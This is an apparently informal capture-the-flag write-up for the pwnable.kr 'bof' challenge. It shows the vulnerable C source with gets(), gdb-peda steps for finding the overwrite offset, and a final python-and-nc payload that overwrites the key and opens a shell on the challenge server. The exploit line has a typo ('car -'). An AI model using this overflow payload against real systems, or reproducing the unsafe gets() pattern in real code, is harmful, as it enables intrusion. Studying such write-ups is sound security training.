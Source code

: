 # **bof**
First, we got the source code with .ELF file from the website.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```


![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)

Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.

`git clone https://github.com/longld/peda.git ~/peda`

`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)

Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if your compiler settings is not the same to this question)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)

Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)

Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)

Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)

In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)

After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)

After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)

Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)

Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)

Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)

You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)

Congratuz! `cat` the flag. Bada bing bada boom.

